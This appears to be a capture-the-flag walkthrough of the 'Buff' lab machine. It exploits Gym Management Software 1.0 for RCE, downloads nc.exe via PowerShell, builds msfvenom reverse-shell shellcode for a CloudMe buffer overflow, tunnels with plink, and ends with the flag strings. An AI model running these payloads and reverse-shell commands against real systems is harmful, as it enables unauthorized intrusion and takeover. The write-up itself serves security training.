buff

nmap

nmap shows the only service running is http on port 8080
gym management software 1.0
navigating through the web server's contact.php page, there is a note that Buff's webserver uses Gym Management Software 1.0 to run its webserver.
Googling Gym Management Software returns an Unauthenticated Remote Code Execution vulnerability


unauthenticated RCE exploit


we can look up the exploit locally using searchsploit and the exploit database ID number

python gym_software_exploit.py http://10.10.10.198:8080/ <- don't forget the trailing backslash

we have a foothold!
But since the shell is limited, lets call a fully functional shell back to our attack machine
reverse shell
An easy way to do that is to have our victim download netcat for windows and execute it remotely to call a shell back to usfirst locate nc.exe and mv it to your working directory and spin up an http server


and have our victim download it
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.13/nc.exe','C:\xampp\htdocs\gym\upload\nc.exe')


privesc w/ Cloud_1112.exe
looking at our owned user shaun's download folder we see an interesting executable named CloudMe_1112.exe
searchsploit CloudMe

we'll choose the first exploit and mirror it to our directory with searchsploit -m windows/remote/48389

generate shell code
since the buffer overflow is mostly already written for us, all we need to do is tweak the shellcode that will call back to our attack machinemsfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.62 4444' -f py -b '/x00/x0a/x0d' -v payload


now sub out 48389's shellcode with our msfvenom generated shellcode

plink
we want to forward our port to the victim box so we can run the exploit locally on our attacking machine since BUFF does not support pythonfirst download plink to our windows victim with a powershell downloadfile cmd



plink.exe -l st0ve -pw 12345 10.10.14.62 -R 8888:127.0.0.1:8888
+

reverse shell
make sure you set up your listener from user st0ve since thats what our victim is plinked towe run our exploit which attacks oour localhost (127.0.0.1 on port 8888 which forwards to Buff's port 8888)and....

we're root

user/root
29a8c6e451149cf2499ebabeb7aec7d4

d8f697cf088291568ccf206c16ea3b49